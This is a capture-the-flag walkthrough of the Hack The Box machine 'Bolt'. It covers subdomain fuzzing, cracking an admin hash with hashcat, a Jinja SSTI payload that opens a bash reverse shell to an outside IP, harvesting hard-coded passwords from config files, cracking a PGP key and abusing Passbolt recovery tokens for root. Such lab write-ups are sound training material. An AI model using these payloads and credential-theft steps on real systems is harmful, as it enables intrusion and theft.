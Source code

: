 # [Bolt](https://app.hackthebox.com/machines/bolt)

```bash
nmap -p- --min-rate 10000 10.10.11.114 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80,443 10.10.11.114 -Pn 
```

![alt text](img/image-1.png)


From nmap scan result, I see that `passbolt.bolt.htb` domain name is resolved for port `443`.

Let's add this domain name into `/etc/hosts` file.



Let's do subdomain enumeration for `bolt.htb` via `wfuzz` command.
```bash
wfuzz -u http://10.10.11.114 -H "Host: FUZZ.bolt.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hh 30341
```

![alt text](img/image-2.png)


I found two subdomains being `demo` and `mail` , let's add them into `/etc/hosts` file for resolving purposes.


From http port of `passbolt.bolt.htb` application, I found `image.tar` file from `/download` endpoint.

![alt text](img/image-3.png)

Let's download file from this button which named as `image.tar` file.


I found `db.sqlite3` file from `a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2` directory's `layer.tar` file after extraction.


![alt text](img/image-4.png)


admin@bolt.htb: $1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.


I got this and crack via `hashcat` command as below.
```bash
hashcat -m 500 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```

![alt text](img/image-5.png)


admin@bolt.htb: deadbolt


While I try to login into `bolt.htb` from port `80`, I write this credentials and it worked.

![alt text](img/image-6.png)


From `41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad` directory, I found `.py` from `/app/base/routes.py` file which consist of web application, there `register_code` is leaked means `hard-coded`.

![alt text](img/image-7.png)


Code: XNSS-HSJW-3NGU-8XTJ


Let's create account on `demo.bolt.htb` application as below.

dr4ks@bolt.htb : Dr4ks1234

![alt text](img/image-8.png)


Now, I can login into `demo.bolt.htb` via this credentials which I created myself.

![alt text](img/image-9.png)


From this account credentials, I can login into `mail.bolt.htb` application.

![alt text](img/image-10.png)


I catched `SSTI` (Server-Side Template Injection) attack on `demo.bolt.htb` about data processing, so that my inputs are processed on `mail.bolt.htb`.

Let's enter `SSTI` payload into `username` input field on `Account Settings` section.

![alt text](img/image-11.png)


My `SSTI` payload is triggered, means calculation of `7*7` is done and equal to `49`.

![alt text](img/image-12.png)



Now, it's time to add reverse shell `SSTI` payload.
```bash
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.18/1337 0>&1"').read() }}
```

![alt text](img/image-13.png)


While clicking this `confirmation` link, I got shell.

![alt text](img/image-14.png)


I got reverse shell from port `1337`.

![alt text](img/image-15.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-16.png)



I found some `hard-coded` credentials from files on this machine.

`/var/www/dev/config.py` file.

![alt text](img/image-17.png)


Passwords are gained=>

dXUUHSW9vBpH5qRB
kreepandcybergeek

`/var/www/demo/config.py` file.

![alt text](img/image-18.png)

The same passwords are gained from here also.

`/var/www/roundcube/config/config.inc.php` file.

![alt text](img/image-19.png)


Passwords are gained=>

WXg5He2wHt4QYHuyGET


`/etc/passbolt/passbolt.php` file.


![alt text](img/image-20.png)


Password: rT2;jW7<eY8!dX8}pQ8%


Let's look at all the passwords which we gain.
```bash
rT2;jW7<eY8!dX8}pQ8%
WXg5He2wHt4QYHuyGET
kreepandcybergeek
dXUUHSW9vBpH5qRB
```

Let's check this passwords for `eddie` user by using `crackmapexec` binary.
```bash
crackmapexec ssh 10.10.11.114 -u "eddie" -p passwords.txt
```

![alt text](img/image-21.png)


eddie: rT2;jW7<eY8!dX8}pQ8%


user.txt

![alt text](img/image-22.png)



While I enumerate this machine via `grep` command to find password or private data.

I found `000003.log` file on `/home/eddie/.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf` directory.

I read this via `strings` command.

![alt text](img/image-23.png)


I take `PGP` key from here and convert this into `john` format by using `gpg2john` command.

```bash
john hash.txt --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt
```


![alt text](img/image-30.png)


Passphrase: merrychristmas


I login into `MySQL` database.
```bash
mysql -u passbolt -p'rT2;jW7<eY8!dX8}pQ8%' passboltdb
```

I find tokens from `authentication_tokens` table.

![alt text](img/image-25.png)


Let's take id of `eddie@bolt.htb`.

![alt text](img/image-26.png)


Let's get `token` via this user id.

![alt text](img/image-27.png)


Let's browse this HTTPS url.
```bash
https://passbolt.bolt.htb/setup/recover/4e184ee6-e436-47fb-91c9-dccb57f250bc/e5770ba2-8031-4643-9f2b-4892e2e3742b
```

![alt text](img/image-28.png)


I enter `PGP key` into here and add passphrase `merrychristmas` to get password of `root` user.

![alt text](img/image-29.png)

root: Z(2rmxsNW(Z?3=p/9s


root.txt

![alt text](img/image-24.png)